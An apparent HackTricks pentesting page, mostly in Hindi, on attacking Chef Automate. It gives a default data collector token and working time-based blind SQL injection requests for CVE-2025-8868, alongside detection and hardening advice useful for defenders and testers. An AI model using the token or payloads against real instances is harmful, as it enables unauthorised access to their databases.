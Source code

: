 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## अवलोकन

यह पृष्ठ Chef Automate इंस्टेंस को enumerate और attack करने के practical techniques संग्रहीत करता है, विशेष जोर के साथ:
- gRPC-Gateway-backed REST endpoints की खोज और validation/error responses के माध्यम से request schemas का अनुमान लगाना
- defaults मौजूद होने पर x-data-collector-token authentication header का दुरुपयोग
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) जो /api/v0/compliance/profiles/search में filters[].type फील्ड को प्रभावित करती है

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: अक्सर Angular। Static bundles REST paths (e.g., /api/v0/...) का संकेत दे सकते हैं
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate एक data collector expose करता है जो requests को एक dedicated header के माध्यम से authenticate करता है:

- Header: x-data-collector-token
- Risk: कुछ environments में default token रह सकता है जो protected API routes तक access देता है। जंगली में देखा गया ज्ञात default:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

यदि मौजूद हो, तो इस token का उपयोग उन Compliance API endpoints को call करने के लिए किया जा सकता है जो सामान्यतः auth के पीछे बंद होते हैं। Hardening के दौरान defaults को rotate/disable करने का प्रयास करें।

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints अक्सर useful validation errors को leak करते हैं जो expected request model का वर्णन करते हैं।

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Malformed JSON या गलत field types आमतौर पर 4xx/5xx त्रुटियाँ ट्रिगर करते हैं जिनमें hints होते हैं, और headers gRPC-Gateway के व्यवहार को संकेत करते हैं। इनका उपयोग fields को मैप करने और injection surfaces को स्थानीयकृत करने के लिए करें।

## Compliance API SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: type फ़ील्ड को dynamic SQL fragment में interpolate करते समय उचित parameterization/whitelisting न होना (संभवतः identifiers/WHERE clauses बनाने के लिए उपयोग किया जाता है)। type में बनाए गए crafted मान PostgreSQL द्वारा आकलित किए जाते हैं।

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- मूल स्ट्रिंग को एकल उद्धरण (') से बंद करें
- एक उप-प्रश्न जोड़ें जो pg_sleep(N) को कॉल करे
- || के माध्यम से स्ट्रिंग संदर्भ में फिर से प्रवेश करें ताकि अंतिम SQL, चाहे यह किसी भी स्थान पर एम्बेड हो, सिंटैक्टिक रूप से वैध रहे

### डिफरेंशियल लेटेंसी के माध्यम से प्रमाण

जुड़े हुए अनुरोध भेजें और प्रतिक्रिया समयों की तुलना करें ताकि server-side निष्पादन सत्यापित किया जा सके:

- N = 1 second
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 सेकंड
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- प्रतिक्रिया समय pg_sleep(N) के साथ बढ़ते हैं
- HTTP 500 प्रतिक्रियाओं में probing के दौरान pq: विवरण शामिल हो सकते हैं, जो SQL निष्पादन पथों की पुष्टि करते हैं

> टिप: शोर और false positives कम करने के लिए एक timing validator (उदा., सांख्यिकीय तुलना के साथ कई परीक्षण) उपयोग करें।

### प्रभाव

प्रमाणित उपयोगकर्ता — या default x-data-collector-token का दुरुपयोग करने वाले unauthenticated actors — Chef Automate के PostgreSQL संदर्भ में arbitrary SQL निष्पादित कर सकते हैं, जिससे compliance profiles, configuration, और telemetry की गोपनीयता और अखंडता को जोखिम होता है।

### प्रभावित संस्करण / समाधान

- CVE: CVE-2025-8868
- अपग्रेड मार्गदर्शन: Chef Automate 4.13.295 या बाद के (Linux x86) vendor advisories के अनुसार

## पहचान और फोरेंसिक्स

- API layer:
- /api/v0/compliance/profiles/search पर 500s की निगरानी करें जहाँ filters[].type में quotes ('), concatenation (||), या pg_sleep जैसे function references शामिल हों
- gRPC-Gateway प्रवाहों की पहचान के लिए response headers में grpc-metadata-content-type की जाँच करें
- Database layer (PostgreSQL):
- pg_sleep कॉल और malformed identifier errors के लिए ऑडिट करें (अक्सर Go pq driver से आने वाले pq: prefixes के साथ सामने आते हैं)
- Authentication:
- x-data-collector-token के उपयोग पर लॉग और अलर्ट करें, विशेषकर ज्ञात default मानों के लिए, API paths में

## निवारण और हार्डनिंग

- तात्कालिक:
- default data collector tokens को rotate/disable करें
- data collector endpoints के ingress को सीमित करें; मजबूत, unique tokens लागू करें
- कोड-स्तर:
- क्वेरीज़ को parameterize करें; SQL fragments को कभी string-concatenate न करें
- सर्वर पर अनुमत type मानों को सख्ती से whitelist करें (enum)
- identifiers/clauses के लिए dynamic SQL assembly से बचें; यदि dynamic व्यवहार आवश्यक है, तो safe identifier quoting और explicit whitelists का उपयोग करें

## व्यावहारिक परीक्षण चेकलिस्ट

- जाँचें कि x-data-collector-token स्वीकार होता है और ज्ञात default काम करता है या नहीं
- validation errors उत्पन्न करके और error messages/headers पढ़कर Compliance API request schema का mapping करें
- SQLi के लिए कम स्पष्ट “identifier-like” फ़ील्ड्स (उदा., filters[].type) में परीक्षण करें, केवल values arrays या top-level टेक्स्ट फ़ील्ड्स में नहीं
- विभिन्न contexts में SQL को syntactically valid रखने के लिए concatenation के साथ time-based techniques का उपयोग करें

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
